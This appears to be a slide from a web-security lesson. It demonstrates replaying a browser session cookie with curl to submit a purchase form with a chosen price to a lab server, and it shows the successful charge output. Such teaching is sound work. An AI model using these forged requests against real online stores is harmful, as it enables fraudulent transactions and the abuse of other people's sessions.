

# Hacking
First, need to find our cookie from our browser
Then, we can use curl to include that cookie using the -b options
curl -b PHPSESSID=n7591kbbse8rug4dfn019skv05 -F oid=5929 -F price=2500 -F cur=usd http://192.168.84.167/code/purchase.php
Purchase successful, your final order total is 2,500 usd charged to your CC XXXXXXXXXXXX1408
Hurray, we were able to make a successful order